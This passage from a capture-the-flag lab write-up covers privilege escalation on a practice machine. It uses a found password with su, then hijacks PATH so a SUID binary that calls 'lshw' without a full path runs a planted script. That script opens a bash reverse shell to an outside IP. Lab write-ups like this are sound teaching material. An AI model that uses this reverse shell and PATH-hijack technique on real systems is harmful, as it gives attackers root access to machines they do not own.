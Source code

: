 - We have found a password `Th3s3usW4sK1ng`, which works for `su`
```
www-data@ubuntu:/var/www/Magic/images/uploads$ su - theseus
Password: 
theseus@ubuntu:~$
```
## Root
- `linpeas` shows unknown `SUID` binary
```
<SNIP>
-rwsr-x--- 1 root users 22K Oct 21  2019 /bin/sysinfo (Unknown SUID binary!)
<SNIP>
```

- It returns system information
  - Let's `ltrace` it
```
theseus@ubuntu:/tmp$ ltrace /bin/sysinfo
<SNIP>
popen("lshw -short", "r")                                                                                                                         = 0x557cb5517280
fgets(WARNING: you should run this program as super-user.
<SNIP>
popen("fdisk -l", "r")                                                                                                                            = 0x557cb5517280
<SNIP>
popen("free -h", "r")                                                                                                                             = 0x557cb5517280
```

- It doesn't use full path
  - We create `lshw` script and make it executable
  - Then we modify `PATH` variable and add the directory where we placed `lshw`
```
theseus@ubuntu:/dev/shm$ cat lshw 
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.4/7777 0>&1
theseus@ubuntu:/dev/shm$ chmod +x lshw
theseus@ubuntu:/dev/shm$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
theseus@ubuntu:/dev/shm$ export PATH="$(pwd):$PATH"
theseus@ubuntu:/dev/shm$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
theseus@ubuntu:/dev/shm$ 
```

- Run the binary
  - It hangs
  - Check your listener, we should get our `root` shell
```
theseus@ubuntu:/dev/shm$ sysinfo
====================Hardware Info====================

```

![](./images/9.png)